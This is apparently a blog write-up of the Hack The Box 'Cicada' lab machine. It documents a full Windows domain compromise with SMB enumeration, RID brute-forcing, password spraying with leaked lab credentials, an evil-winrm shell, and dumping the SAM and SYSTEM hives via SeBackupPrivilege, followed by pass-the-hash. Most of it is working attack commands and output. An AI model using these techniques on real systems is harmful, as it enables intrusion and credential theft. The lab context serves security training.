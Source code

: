 ```yaml
---
layout: post
title: HTB - Cicada
date: 2025-02-16 09:02 -0400
---
```


![image](/assets/img/cicada.png)

# nmap

```bash
Nmap scan report for cicada.htb (10.10.11.35)
Host is up (0.18s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
53668/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 173.21 seconds
```

smb accepts anonymous login, and there is a file in the HR share.
```

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Doesn't seem to have a username, only a password. By doing `netexec smb $(cat ip.txt) -u guest -p '' --rid-brute` we can get a list of usernames.
Then we just check the password against every one of them.
```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

To try every user:
`netexec smb $(cat ip.txt) -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`

Got a match on michael:

`SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

Lets try and check winrm. No winrm, so probably just more shares?
Cannot read the DEV share.

Running enum4linux gives a lot of info. Including a second account with credentials.
```
'1108':
  username: david.orelious
  name: (null)
  acb: '0x00000210'
  description: Just in case I forget my password is aRt$Lp#7t*VQ!3
```

Still no winrm. But this one can read the DEV share.
```
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' '\\cicada.htb\dev'
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024
```

A third account on the powershell script.
```bash
...
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
...
```

This one gives us the winrm and the user flag.
```bash
~/workspace/projects/htb/cicada » evil-winrm -i $(cat ip.txt) -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> type ..\Desktop\user.txt
e3152***************************
```

Seems that the SeBackupPrivilege allows you to read any file on the system. So we can just get the registries and get Admin maybe?
```bash
Type "WHOAMI /?" for usage.*Evil-WinRM* PS C:\Users\emilwhoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We can save SAM and SYSTEM by doing:
`cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"`
Then just download them with winrm.
After that we use impacket secretsdump.py to get the admin hash. And the root flag.
`secretsdump.py -sam SAM -system SYSTEM LOCAL`

```bash
~/workspace/projects/htb/cicada » netexec winrm $(cat ip.txt) -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341' -x 'type C:\Users\Administrator\Desktop\root.txt'
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
WINRM       10.10.11.35     5985   CICADA-DC        [+] Executed command (shell type: cmd)
WINRM       10.10.11.35     5985   CICADA-DC        a910c***************************
```
